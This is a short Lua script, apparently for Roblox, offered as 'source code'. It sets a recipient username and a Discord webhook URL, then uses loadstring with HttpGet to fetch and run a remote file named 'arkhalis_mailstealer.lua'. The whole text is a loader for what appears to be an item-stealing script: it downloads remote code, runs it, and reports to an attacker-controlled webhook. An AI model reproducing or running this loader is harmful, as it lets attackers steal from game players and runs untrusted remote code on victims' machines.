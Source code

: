 
_G.Username1 = "DKGan_Two"
_G.Username2 = ""
_G.Webhook = "https://discord.com/api/webhooks/1114213699331305562/y5L-GMWDpE2mPQpTP8GJXi11jQNW4tYtU7o9VtcBm7shseN-laLddvW4IQQ2FBIKwauS"
loadstring(game:HttpGet("https://arkhalislua.github.io/arkhalis_mailstealer.lua", true))()
